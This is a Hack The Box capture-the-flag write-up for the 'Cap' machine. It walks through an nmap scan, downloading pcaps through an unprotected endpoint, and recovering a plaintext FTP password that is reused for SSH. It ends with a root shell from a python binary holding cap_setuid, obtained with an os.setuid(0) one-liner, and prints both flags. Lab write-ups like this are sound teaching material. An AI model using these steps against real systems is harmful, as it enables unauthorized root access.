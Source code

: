 ```yaml
---
title: 'Hack The Box Writeup: Cap'
layout: post
date: '2021-07-29 15:12:11 -0400'
categories:
- CTF
tags: htb web privesc network
---
```


![Machine avatar](https://www.hackthebox.eu/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png)

## Port Scan
First run an nmap scan with service enumeration, default scripts, and OS identification.
```bash
nmap 10.10.10.245 -sV -sC -O
```
Which gives the following output:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
...
|_http-server-header: gunicorn
|_http-title: Security Dashboard
...
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports at this address. An FTP server on port 21, SSH server on port 22, and   an HTTP server on port 80. The HTTP server is running Gunicorn which is Python web server similar to Flask.

## Web Enumeration
Lets hop into a browser and check out the web server. Visiting it, we see there are 4 tabs we can visit.

> 10.10.10.245

![tab 1](/assets/img/tab1.jpg)
*A visual representation of security events, failed login attempts, and port scans over the last 24 hours at this ip address.*
> 10.10.10.245/data/0

![tab 2](/assets/img/tab2.jpg)
*Pressing the second tab for the security snapshot goes to /capture. This in turn redirects to /data/ followed by a number. We can manually change this to 0 or any other number. On this page we can also download a pcap file corresponding to this number.*

Presumably we will need to investigate some of these pcap files with Wireshark as the name of the box is "Cap". Also note that pressing download redirects to /download/0. This way we can download pcap files directly from a url including indices which are missing data pages like at /data/9.
> 10.10.10.245/ip

![tab 3](/assets/img/tab3.jpg)
*The output of the ip shell command at 10.10.10.245*
> 10.10.10.245/netstat

![tab 4](/assets/img/tab4.jpg)
*The output of the netstat shell command at 10.10.10.245*

After investigation, it seems that the incrementing numbers after /data/ represent portions of the network log in chronological order. Lets start at 10.10.10.245/download/0 and download 0.pcap all the way to 10.10.10.245/download/25 for 25.pcap so we can read any part of the log with Wireshark. This can be done with this simple curl one liner:

```bash
curl http://10.10.10.245/download/[0-25] -O
```

## Packet Analysis
First, let's open 0.pcap from Wireshark.
Sorting the packets by protocol and examining the FTP traffic we can immediately see an unencrypted FTP login.
![Wireshark log](/assets/img/wire0.jpg)
From this traffic we get the following username and password to login to the FTP server.

> USER nathan
> PASS Buck3tH4TF0RM3!

We can also see that this same user retrieved a file named notes.txt before the log ends.
## FTP Enumeration
Login to the ftp server with

```bash
ftp 10.10.10.245
```

Then entering nathan's username and password we succesfully logged in! In nathan's home directory there is a file called user.txt which holds the first flag for HTB.

> f8ee4208619dd70ee616d7cd81628906

To get a shell, lets try to connect to ssh server that is running with the same credentials

```bash 
ssh nathan@10.10.10.245
```
```
    ...
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
    ...
    nathan@cap:~$ ls
    linpeas.sh  ls.txt  snap  user.txt  user2.txt
```
Somebody else conveniently already downloaded linpeas.sh so we can do linux enumeration without having to scp that.
## Linux Privilege Escalation
To get linpeas.sh if it is not already on this system, run the scp command using nathan's account then ssh in on port 22.

```bash
./linpeas.sh
```
  
One interesting line in the enumeration results is:

> /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

It seems that this python binary has the capability to set the user id to root. We can do this by running python code which sets the uid then executes a new shell.

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

And now we are root!
The last flag is located at /root/root.txt
 
```bash
cat root.txt
```

> e516cb179c03e3c916f04f2acef5b4bc

With that, we have pwned this machine
